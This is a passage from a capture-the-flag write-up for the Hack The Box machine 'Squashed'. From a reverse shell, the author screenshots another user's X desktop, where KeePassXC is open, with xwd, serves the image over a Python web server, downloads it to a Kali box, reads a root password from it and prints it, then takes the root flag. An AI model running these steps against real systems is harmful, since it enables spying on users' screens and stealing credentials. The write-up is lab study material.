10.10.14.166 - - [17/Apr/2023 12:56:52] "GET /screenshot.vwd HTTP/1.1" 200 -
10.10.14.166 - - [17/Apr/2023 12:57:05] "GET /screenshot.xwd HTTP/1.1" 200 -
```

Attacker:   
Downloaded screenshots:    
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ wget http://10.10.11.191:8080/screenshot.vwd
--2023-04-17 15:56:51--  http://10.10.11.191:8080/screenshot.vwd
Connecting to 10.10.11.191:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1923179 (1.8M) [application/octet-stream]
Saving to: ‘screenshot.vwd’

screenshot.vwd                                             100%[========================================================================================================================================>]   1.83M  1.75MB/s    in 1.0s    

2023-04-17 15:56:53 (1.75 MB/s) - ‘screenshot.vwd’ saved [1923179/1923179]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ wget http://10.10.11.191:8080/screenshot.xwd
--2023-04-17 15:57:05--  http://10.10.11.191:8080/screenshot.xwd
Connecting to 10.10.11.191:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1923179 (1.8M) [image/x-xwindowdump]
Saving to: ‘screenshot.xwd’

screenshot.xwd                                             100%[========================================================================================================================================>]   1.83M  1.72MB/s    in 1.1s    

2023-04-17 15:57:06 (1.72 MB/s) - ‘screenshot.xwd’ saved [1923179/1923179]
```

Attack:   
Opened the screenshot.xwd with default `ImageMagick`    

Muaaaahahaha!!! Jackpot!   

Back to the victim's revshell:  
```bash
alex@squashed:/home/alex$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.166 - - [17/Apr/2023 12:56:52] "GET /screenshot.vwd HTTP/1.1" 200 -
10.10.14.166 - - [17/Apr/2023 12:57:05] "GET /screenshot.xwd HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
alex@squashed:/home/alex$ su root
Password: # cah$mei7rai9A
root@squashed:/home/alex# id
uid=0(root) gid=0(root) groups=0(root)
root@squashed:/home/alex# cd 
root@squashed:~# ls
Desktop    Downloads  Pictures  root.txt  snap       Videos
Documents  Music      Public    scripts   Templates
root@squashed:~# cat root.txt 
02************
```
Root flag obtained!   




*Total time:   
Active hacking: ~2h    
Reading and studying: ~30min*   

### Few days later!
**Okay, i found out, it was too easy, while debugging stuff with [Miljonka](https://github.com/miljonka?tab=repositories).**   

*The screenshot files were not supposed to be there yet.   
They probably were there because someone else was doing the machine at the same time.*   

To actually "take" those screenshots, i searched a walkthrough to guide me and its been used as a source for the next parts, till the end:   
https://0xdf.gitlab.io/2022/11/21/htb-squashed.html    

I needed to check the connected display with `w`:    
```
$ w
 12:32:42 up  1:39,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               21:24    1:39m  9.01s  0.04s /usr/libexec/gn
```

So the display is at `:0`    
To see the `windows`:   
```bash
$ xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800021 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1e000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1e00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2000001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1e00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
     0x1c00002 (has no name): ()  10x10+0+0  +0+0
     0x1c00001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10
     0x1a00001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10
     0x1800001 "evolution-alarm-notify": ("evolution-alarm-notify" "Evolution-alarm-notify")  10x10+10+10  +10+10
     0x1400001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10
     0x1600001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10
     0x1200001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0x1000001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10
     0xc00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0xa00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xa00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xa00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0

```

`0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc") ` looks promising!   

Victim:
Took a screenshot of the screen with `xwd` and saved to `/tmp`:
```bash
$ xwd -root -screen -silent -display :0 > /tmp/squashed.xwd
```

Explanation:   
```bash
-root select the main root window, not requiring me to select a sub-window with the mouse (which would be impossible with a remote shell)
-screen makes sure the GetImage request goes to the root window
-silent silence the typical bells that come with a screenshot
-display specifies the display to connect to
```

Went to `tmp` where the screenshot was saved, and spinned up a webserver:    
```bash
$ cd /tmp
$ python3 -m http.server 8080
```

Attack:   
With `wget` got the screenshot from the webserver and converted to `.png`   
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ wget http://10.10.11.191:8080/squashed.xwd
--2023-04-19 21:30:23--  http://10.10.11.191:8080/squashed.xwd
Connecting to 10.10.11.191:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1923179 (1.8M) [image/x-xwindowdump]
Saving to: ‘squashed.xwd’

squashed.xwd                 100%[==============================================>]   1.83M  1.33MB/s    in 1.4s    

2023-04-19 21:30:25 (1.33 MB/s) - ‘squashed.xwd’ saved [1923179/1923179]

                                                                                                                    
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ convert squashed.xwd squashed.png
```

Proofs:   


### More info
*According to the walkthrough, what i did was still too easy.*   
The .Xauthority file shouldnt have been there in the `/home/alex` , so i was supposed to not be able to access the desktop session yet....   
I was supposed to copy a `.Xauthority` from `ross` home for `alex` and use it to access the session....   